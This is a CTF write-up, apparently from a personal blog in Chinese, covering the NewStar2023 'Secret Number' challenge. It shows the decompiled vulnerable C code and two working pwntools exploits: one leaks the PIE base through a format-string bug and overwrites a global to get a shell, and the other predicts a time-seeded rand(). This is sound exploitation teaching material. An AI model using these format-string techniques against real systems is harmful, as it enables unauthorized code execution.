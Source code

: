 ```yaml
---
title: PIE Format String
tags: [ctf-pwn,fmt]
date: 2023-11-26 12:08:00
categories: [ctf-pwn]
excerpt: 开PIE的格式化字符串
---
```


### NewStar2023 Secret Number

<https://buuoj.cn/match/matches/190/challenges>

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [rsp+8h] [rbp-38h] BYREF
  int v6; // [rsp+Ch] [rbp-34h] BYREF
  char buf[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v3 = time(0LL);
  srand(v3);
  secret = rand();
  puts("Welcome to NewStar CTF!!");
  while ( 1 )
  {
    puts("Give me some gift?(0/1)");
    __isoc99_scanf("%d", &v6);
    if ( v6 != 1 )
      break;
    puts("What's it");
    read(0, buf, 32uLL);
    puts("Oh thanks,There is my gift:");
    printf(buf);
  }
  puts("Guess the number");
  __isoc99_scanf("%d", &v5);
  if ( v5 == secret )
    system("/bin/sh");
  else
    puts("You are wrong!");
  return 0;
}
```

#### 泄露PIE偏移

泄露栈里的main函数的地址，但是输入最多32字节，靠%p%p%p%p....是达不到第十七个%p的。

不知道有什么别的方法，只能一个一个试

pwntools的`fmtstr_payload`可以直接指定修改任意地址的值，第一个参数是`aaaaaaaa`的偏移，后面的字典是要修改的地址和值

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
#p = remote("node4.buuoj.cn",26261)
p = process('./secretnumber')

offset=8 # aaaaaaaa
num_addr = 0x404c

##leak pie
p.sendlineafter(b"(0/1)\n",b'1')
payload = "aaaaaaaa%17$p".encode("utf-8")
p.sendlineafter(b"What's it\n",payload)
p.recvuntil(b'aaaaaaaa')
main_addr=int(p.recvuntil(b'f5')[-12:],16)
pie=main_addr-0x12F5
print(hex(main_addr))
print(hex(pie))
num_addr += pie

##fmtpayload
p.sendlineafter("(0/1)\n",'1')
fmtpayload=fmtstr_payload(offset, {num_addr:1})
p.sendlineafter("What's it\n",fmtpayload)
p.sendlineafter("(0/1)\n",'0')
p.sendlineafter("Guess the number\n",'1')
p.interactive()

```



#### 用相同的种子猜测伪随机数

不一定每次成功，要多试几次，让seed对上

```python
from pwn import *
from ctypes import *
context(os='linux', arch='amd64', log_level='debug')
p = remote('node4.buuoj.cn',26261)
elf = ELF('./secretnumber')
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
 
seed=libc.time(0)
libc.srand(seed)
num1=libc.rand()
 
p.sendlineafter(b'Give me some gift?(0/1)\n',b'0')
p.sendlineafter(b'Guess the number\n',str(num1))
p.interactive()
```

